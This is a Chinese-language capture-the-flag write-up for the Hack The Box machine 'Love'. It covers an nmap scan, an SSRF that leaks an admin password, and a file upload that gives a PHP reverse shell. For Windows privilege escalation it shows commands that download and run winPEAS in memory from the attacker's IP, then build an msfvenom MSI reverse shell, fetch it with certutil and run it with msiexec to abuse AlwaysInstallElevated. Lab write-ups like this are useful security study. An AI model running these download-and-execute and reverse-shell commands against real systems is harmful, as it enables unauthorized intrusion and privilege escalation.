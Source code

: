 
## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/love]
└─$ sudo nmap -sT -sCV -p80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670 10.10.10.239  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-19 02:42 EDT
Stats: 0:01:43 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 94.74% done; ETC: 02:43 (0:00:05 remaining)
Stats: 0:02:56 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.81% done; ETC: 02:44 (0:00:00 remaining)
Nmap scan report for 10.10.10.239
Host is up (0.15s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, JavaRMI, LANDesk-RC, RPCCheck, SIPOptions, WMSRequest: 
|_    Host '10.10.16.10' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2024-07-19T06:58:41+00:00; +13m33s from scanner time.
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=7/19%Time=669A0ACE%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\x
SF:20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSSt
SF:atusRequestTCP,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20
SF:not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(
SF:SIPOptions,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LAND
SF:esk-RC,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(JavaRMI,
SF:4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSRequest,4A,"
SF:F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h58m34s, deviation: 3h30m04s, median: 13m32s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-07-19T06:58:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-18T23:58:31-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 190.99 seconds
```

得到一个域名，和ip绑定一下
/etc/hosts
staging.love.htb    10.10.10.239 
love.htb    10.10.10.239 
## web渗透
![](images/2024-07-19-15-18-47.png)
通过访问love.htb 主页得到一个登录界面
访问staging.love.htb则是另一个界面
![](images/2024-07-19-15-19-47.png)
先看下历史漏洞
![](images/2024-07-19-15-20-35.png)
rce需要登录后的权限才行，sql试了下没有用

然后就看下web页面吧
在`http://staging.love.htb/beta.php`有个ssrf
![](images/2024-07-19-15-22-32.png)
之前有扫到两个403的页面看看能不能看下
找到一个账号密码
![](images/2024-07-19-15-37-33.png)
admin: @LoveIsInTheAir!!!! 
这里能登录进去
![](images/2024-07-19-15-41-14.png)
![](images/2024-07-19-15-54-38.png)
找到文件上传，拿到shell
用的是这个反弹shell：PHP Ivan Sincek
![](images/2024-07-19-15-56-40.png)
## 提权
![](images/2024-07-19-16-54-03.png)
在用户桌面发现user.txt
![](images/2024-07-19-16-54-46.png)
无文件落地执行winpeas
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://10.10.16.10:9999/winPEASany.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```
![](images/2024-07-19-17-02-19.png)
找到一个AlwaysInstallElevated

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=2333 -f msi -o reverse.msi

certutil.exe -urlcache -split -f http://10.10.16.10:9999/reverse.msi reverse.msi

msiexec /quiet /i reverse.msi
```
只要让靶机下载该文件然后执行即可
![](images/2024-07-19-17-19-43.png)

“AlwaysInstallElevated” 是 Windows 操作系统中的一个策略设置，旨在允许安装程序在具有提升的权限下运行。这一策略在注册表中有两个键值：

HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

当这两个键值都设置为 1 时，任何 MSI 安装包都会在提升的权限下运行，而无需用户确认。这可能导致安全风险，因为恶意用户可以创建或使用特制的 MSI 安装包来获得系统的完全控制权限。具体利用方式如上。
